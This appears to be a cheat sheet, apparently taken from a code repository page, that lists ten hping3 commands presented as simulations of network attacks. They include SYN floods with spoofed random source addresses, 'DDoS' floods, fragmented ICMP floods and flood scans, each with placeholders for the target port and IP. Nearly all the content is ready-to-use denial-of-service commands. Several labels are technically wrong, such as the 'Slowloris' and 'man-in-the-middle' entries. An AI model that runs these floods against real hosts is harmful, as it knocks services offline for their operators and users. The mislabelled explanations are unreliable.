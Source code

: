 1. **Simulating a DOS Attack**: Simulates a large-scale denial of service attack by randomizing source and destination IPs.
    ```bash
    hping3 --syn --flood --rand-source --rand-dest -p <target_port> <target_ip>
    ```
2. **Simulating Network Congestion**: Simulates network congestion by flooding the network with large packets from random sources.
    ```bash
    hping3 --flood -p <target_port> --rand-source -d <data_size> <target_ip>
    ```
3. **Simulating TCP Connection Timeouts**: Simulates TCP connection timeouts by sending SYN packets without completing the handshake.
    ```bash
    hping3 -S --flood --syn --rand-source -p <target_port> <target_ip>
    ```
4. **Simulating a Distributed DOS (DDoS) Attack**: Simulates a DDoS attack by flooding the network from multiple sources.
    ```bash
    hping3 --flood --rand-source --rand-dest -p <target_port> <target_ip>
    ```
5. **Simulating a Man-in-the-Middle Attack**: Simulates a man-in-the-middle attack by injecting data into ICMP timestamp packets.
    ```bash
    hping3 --icmp --icmp-ts --data <custom_payload> -p <target_port> <target_ip>
    ```
6. **Simulating a Network Reconnaissance Attack**: Simulates a network reconnaissance attack by flooding the network with SYN scans.
    ```bash
    hping3 -S --flood -p <target_port_range> <target_ip>
    ```
7. **Simulating Slowloris Attack**: Simulates a Slowloris attack by sending partial HTTP requests to keep connections open.
    ```bash
    hping3 -S -p 80 --data "GET / HTTP/1.1\r\nHost: <target_ip>\r\n" --flood <target_ip>
    ```
8. **Simulating IP Fragmentation Attacks**: Simulates IP fragmentation attacks by flooding the network with fragmented ICMP packets.
    ```bash
    hping3 --icmp --flood -f <target_ip>
    ```
9. **Simulating Network Latency**: Simulates network latency by sending ICMP packets with varying TTL values.
    ```bash
    hping3 --icmp -p <target_port> --traceroute <target_ip>
    ```
10. **Simulating a SYN Flood with Varying Payloads**: Simulates a SYN flood with varying payload sizes to test network resilience.
    ```bash
    hping3 -S --flood -p <target_port> --data <custom_payload> <target_ip>
    ```
